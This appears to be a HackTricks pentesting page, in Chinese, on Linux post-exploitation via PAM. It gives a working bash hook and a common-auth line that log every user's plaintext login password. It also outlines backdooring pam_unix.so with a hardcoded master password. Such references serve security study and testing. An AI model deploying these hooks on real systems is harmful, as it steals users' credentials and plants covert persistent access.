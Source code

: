 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## 使用 PAM 嗅探登录密码

让我们配置一个 PAM 模块来记录每个用户登录时使用的密码。如果你不知道 PAM 是什么，请查看：

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**有关更多详细信息，请查看 [原始帖子](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**。这只是一个摘要：

**技术概述：**
可插拔认证模块（PAM）在管理基于 Unix 的系统的认证方面提供了灵活性。它们可以通过自定义登录过程来增强安全性，但如果被滥用也会带来风险。此摘要概述了使用 PAM 捕获登录凭据的技术，以及缓解策略。

**捕获凭据：**

- 一个名为 `toomanysecrets.sh` 的 bash 脚本被创建，用于记录登录尝试，捕获日期、用户名（`$PAM_USER`）、密码（通过 stdin）和远程主机 IP（`$PAM_RHOST`）到 `/var/log/toomanysecrets.log`。
- 该脚本被设置为可执行，并通过 `pam_exec.so` 模块集成到 PAM 配置（`common-auth`）中，选项为安静运行并将认证令牌暴露给脚本。
- 该方法演示了如何利用被攻陷的 Linux 主机来隐秘地记录凭据。
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**有关更多详细信息，请查看[原始帖子](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**。这只是一个摘要：

可插拔认证模块（PAM）是一个在Linux下用于用户认证的系统。它基于三个主要概念：**用户名**、**密码**和**服务**。每个服务的配置文件位于`/etc/pam.d/`目录中，那里有共享库处理认证。

**目标**：修改PAM以允许使用特定密码进行认证，绕过实际用户密码。这特别关注`common-auth`文件中使用的`pam_unix.so`共享库，该文件几乎被所有服务用于密码验证。

### 修改`pam_unix.so`的步骤：

1. **定位认证指令**在`common-auth`文件中：
- 负责检查用户密码的行调用`pam_unix.so`。
2. **修改源代码**：
- 在`pam_unix_auth.c`源文件中添加一个条件语句，如果使用预定义密码则授予访问权限，否则继续进行常规认证过程。
3. **重新编译并替换**在适当目录中的修改后的`pam_unix.so`库。
4. **测试**：
- 使用预定义密码在各种服务（登录、ssh、sudo、su、屏幕保护程序）中授予访问权限，而正常的认证过程不受影响。

> [!NOTE]
> 您可以使用[https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)自动化此过程

{{#include ../../banners/hacktricks-training.md}}
